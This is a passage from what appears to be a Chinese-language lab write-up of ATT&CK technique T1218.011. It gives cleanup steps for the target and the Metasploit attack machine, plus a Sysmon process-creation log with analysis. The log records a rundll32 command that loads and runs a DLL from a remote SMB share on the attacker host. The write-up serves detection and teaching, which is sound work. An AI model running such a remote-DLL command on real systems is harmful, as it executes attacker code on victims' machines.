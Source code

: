 #### 3. 清理

**靶机**：
```cmd
taskkill /IM rundll32.exe /F
```

**攻击机**：
- 关闭Metasploit会话：`exit`
- 停止SMB服务器。

## 测试留痕

### Sysmon日志（Event ID 1：进程创建）

```xml
日志名称: Microsoft-Windows-Sysmon/Operational
来源: Microsoft-Windows-Sysmon
日期: 2023/10/01 10:00:00
事件 ID: 1
任务类别: Process Create
级别: 信息
用户: 12306Br0-PC\12306Br0
计算机: 12306Br0-PC
描述:
Process Create:
RuleName: technique_id=T1218.011,technique_name=Signed Binary Proxy Execution
UtcTime: 2023-10-01 02:00:00.123
ProcessGuid: {bb1f7c32-2149-5e9b-0000-00107066a000}
ProcessId: 2608
Image: C:\Windows\SysWOW64\rundll32.exe
FileVersion: 6.1.7600.16385
Description: Windows host process (Rundll32)
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: RUNDLL32.EXE
CommandLine: rundll32.exe \\192.168.126.146\huwSj\test.dll,0
CurrentDirectory: C:\Users\12306Br0\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-00201ae20600}
LogonId: 0x6e21a
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=963B55ACC8C566876364716D5AAFA353995812A8
ParentProcessGuid: {bb1f7c32-20fc-5e9b-0000-0010bd868700}
ParentProcessId: 3808
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\System32\cmd.exe"
```

**分析**：
- 日志记录`rundll32.exe`加载远程DLL（`\\192.168.126.146\huwSj\test.dll`）。
- 父进程为`cmd.exe`，提示通过命令行触发。
